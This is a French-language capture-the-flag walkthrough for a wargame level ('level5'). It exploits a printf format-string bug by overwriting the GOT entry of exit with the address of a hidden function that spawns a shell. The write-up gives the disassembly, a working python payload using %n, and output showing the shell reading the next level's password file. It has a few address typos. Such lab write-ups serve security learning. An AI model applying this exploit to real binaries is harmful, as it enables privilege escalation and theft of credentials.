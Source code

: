 ```
objdump -M intel -d level5
```

Nous observons que la fonction main appelle une fonction "n" et une "o" (non appellée)
On remarque que n appelle printf, qui peut être exploitée.

```
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
```

On remarque que la fonction o qui n'est pas appellée appelle en revanche un shell.

```
080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
```


On comprend donc que l'on devra appeller la fonction o en utilisant printf afin de résoudre le probleme qui ressemble
beaucoup aux 2 precedents.
Notre objectif va etre de remplacer la fonction exit dans le GOT (Global Offset Table) par la contion o.
Car les fonctions et n ne return rien.

```
objdump -R level5
On note:
08049838 R_386_JUMP_SLOT   exit
```

Puis

```
gdb ./level5
info function o
On note:
0x080484a4  o
```

On a donc l'adresse d'exit est de o, il suffit comme fait precedemment de les interchanger en calculant l'offset:

```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520
```
On observe que l'exit se trouve en 4eme position !


adresse of exit little endian: \x38\x98\x04\x08" -> 08049828
o:  adresse de o en decimal 134513824 (134513828 - 4 car adresse de o) 
modifier : %4\$n

```
python -c "print('\x38\x98\x04\x08' + '%134513824c' + '%4\$n')" > /tmp/test5
cat /tmp/test5 - | ./level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

